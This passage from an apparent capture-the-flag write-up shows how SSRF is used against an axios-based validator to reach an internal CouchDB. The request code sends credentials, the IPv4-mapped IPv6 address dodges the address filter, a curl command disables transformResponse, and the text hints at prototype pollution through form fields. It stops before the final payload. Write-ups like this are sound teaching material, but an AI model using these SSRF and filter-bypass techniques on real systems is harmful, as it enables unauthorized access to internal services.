 ```javascript
    },
    body: serialize({
        type: 'url',
        input: {
            url: 'http://a08f8e0260c64418510cefb2b06eee5cd:bbb@[::ffff:ac1e:103]:5984/a08f8e0260c64418510cefb2b06eee5cd/z',
            method: 'put',
            headers: {'Content-Type': 'application/json'},
            data: `{"flag": ">"}`
        }
    })
})
```

### Part 2.4

Everything is OK? Let us request ``http://a08f8e0260c64418510cefb2b06eee5cd:bbb@172.30.1.3:5984/a08f8e0260c64418510cefb2b06eee5cd/_find``. It **STILL** fucking shows `BONUS LIMIT`, why?

`axios` is clever enough, if response is a valid JSON, it will auto convert it to a object. `Object.toString() === [object Object]`, so everything is gone. We should try to disable it.

The related code is [here](https://github.com/axios/axios/blob/6642ca9aa1efae47b1a9d3ce3adc98416318661c/lib/defaults.js#L59), it's a default `transformResponse` paramater. We can pass a null `transformResponse` to override it. For example:

```bash
curl -X "POST" "http://127.0.0.1:3000/validator" \
     -H 'Content-Type: application/json; charset=utf-8' \
     -d $'{
  "type": "url",
  "input": {
    "url": "http://a08f8e0260c64418510cefb2b06eee5cd:bbb@[::ffff:ac1e:0103]:5984/a08f8e0260c64418510cefb2b06eee5cd/_find",
    "responseType": "text",
    "transformResponse": null
  }
}'
```

However, our code will be executed on the browser. Due to the lack of a CORS header, we could not pass JSON objects and get response information via the fetch API. Therefore, we have to get the flag by screenshot, and have to pass the parameters to `axios` by form submission. When submitting through a form, the only type is `string`. You can only make `input[transformResponse]` as `"null"`, `"0"`, or `""`.

Maybe you need `input[transformResponse][__proto__]=""`

## Payload

To make it easier for everyone to debug, I added a `window.ctfhelper` into the page. You should type `ctfhelper.timeout = 10000` in DevTool at first.

Copy the following code into the textarea:

